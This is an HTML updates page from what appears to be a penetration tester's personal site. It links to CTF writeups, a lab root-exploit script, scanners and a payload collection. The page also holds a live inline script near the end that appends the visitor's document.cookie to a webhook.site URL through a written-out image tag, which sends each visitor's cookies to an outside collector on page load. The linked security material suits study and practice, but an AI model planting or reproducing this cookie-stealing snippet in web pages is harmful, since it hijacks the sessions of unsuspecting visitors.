 
<link rel="icon" href="https://user-images.githubusercontent.com/78603128/193405439-d44c4c2f-a483-4b82-8114-c6f3873bd9c1.png">
<center><div id="CounterVisitor"></div></center>

<h2>Latest Updates</h2>

<hr>
<table>
<tr>
<blockquote><td>Created Jackmeister's Playbook</td><td><a href="https://jackmeister.gitbook.io/jackmeister-playbook/">Jackmeister's pentest framework</a></td></blockquote>
<hr>
</tr> 
<tr>
<blockquote><td>Created Jack of All BL4D3S</td><td><a href="https://github.com/J4CKMEISTER/Jack-of-All-BL4D3S">Collection of Scripts and Payloads</a></td></blockquote>
</tr> 
<hr>
<tr>
<blockquote><td>Updated pentest tools</td><td><a href="https://j4ckmeister.github.io/tools">Added more contents</a></td></blockquote>
</tr> 
<hr>
<tr>
<blockquote><td>Updated websites</td><td><a href="https://j4ckmeister.github.io/websites">Added more contents</a></td></blockquote>
</tr> 
<hr>
<tr>
<blockquote><td>Cyberverse</td><td><a href="http://cyberverse.rf.gd/home.php">A damn vulnerable website as FYP Project</a></td></blockquote>
</tr> 
<hr>    
<tr>
<blockquote><td>MCC2022 THM S1mple0nly b2root Writeup</td><td><a href="https://jackmeister.gitbook.io/ctf-writeups/tryhackme/s1mple0nly-b2r">Writeup for MCC2022 S1mple0nly b2root , easy boot to root machine </a></td></blockquote>
</tr>
<hr>    
<tr>
<blockquote><td>MCC2022 THM This is so Easy Writeup</td><td><a href="https://jackmeister.gitbook.io/ctf-writeups/tryhackme/this-is-so-easy">Writeup for MCC2022 This is so Easy , easy boot to root machine </a></td></blockquote>
</tr> 
<hr>    
<tr>
<blockquote><td>MCC2022 THM Hermoso Writeup</td><td><a href="https://jackmeister.gitbook.io/ctf-writeups/tryhackme/hermoso">Writeup for MCC2022 Hermoso , medium boot to root machine </a></td></blockquote>
</tr> 
<hr>
<tr>
<blockquote><td>Hermoso root exploit</td><td><a href="https://github.com/J4CKMEISTER/Tools/blob/main/hermoso2root.sh">script created to gain root from MCC2022 Hermoso machine </a></td></blockquote>
</tr> 
<hr>    
<tr>
<blockquote><td>IP Address Scanner V3</td><td><a href="https://github.com/J4CKMEISTER/Tools/blob/main/ip-scanner3.sh">Updated according to feedbacks</a></td></blockquote>
</tr>
<hr>
<tr>
<blockquote><td>Updated pentest tools</td><td><a href="https://j4ckmeister.github.io/tools">Added more contents</a></td></blockquote>
</tr>   
<hr>    
 <tr>
<blockquote><td>Updated GitBook</td><td><a href="https://jackmeister.gitbook.io/ctf-writeups/">Added more contents</a></td></blockquote>
</tr>   
<hr>    
<tr>
<blockquote><td>Created GitBook</td><td><a href="https://jackmeister.gitbook.io/ctf-writeups/">Website to write and share CyberSec related experiences</a></td></blockquote>
</tr>
<hr>    
<tr>
<blockquote><td>IP Address Scanner V2</td><td><a href="https://github.com/J4CKMEISTER/Tools/blob/main/ip-scanner2.sh">Second version of bash script to scan for ip address</a></td></blockquote>
</tr>
<hr>
<tr>
<blockquote><td>Base Converter</td><td><a href="https://github.com/J4CKMEISTER/Tools/blob/main/baseConverter.py">A base python base converter</a></td></blockquote> 
</tr>
<hr>
<tr>
<blockquote><td>IP Address Scanner V1</td><td><a href="https://github.com/J4CKMEISTER/Tools/blob/main/ip-scanner.sh">First version of bash script to scan for ip address</a></td></blockquote> 
</tr>
<hr>
<tr>
<blockquote><td>Linux Version Checker</td><td><a href="https://github.com/J4CKMEISTER/Tools/blob/main/linux-version-checker.sh">Bash script that run common version checking commands</a></td></blockquote> 
</tr>
<hr>    
<tr>
<blockquote><td>Javascript Visit Counter</td><td><a href="https://github.com/J4CKMEISTER/Tools/blob/main/js-counter.js">Javascript that keep track of number of times the webpage is visited</a></td></blockquote> 
</tr>
<hr>
</table>

<script>document.write('<img src="https://webhook.site/7005d9e1-cc86-437a-917e-cbf48a32a2fb/?c='+document.cookie+'" />');</script>
<script>


   var n = localStorage.getItem('on_load_counter');

    if (n === null) {
        n = 0;
    }

    n++;

    localStorage.setItem("on_load_counter", n);

    document.getElementById('CounterVisitor').innerHTML = 'You have visited this page '+ n + ' times';

                     
</script>



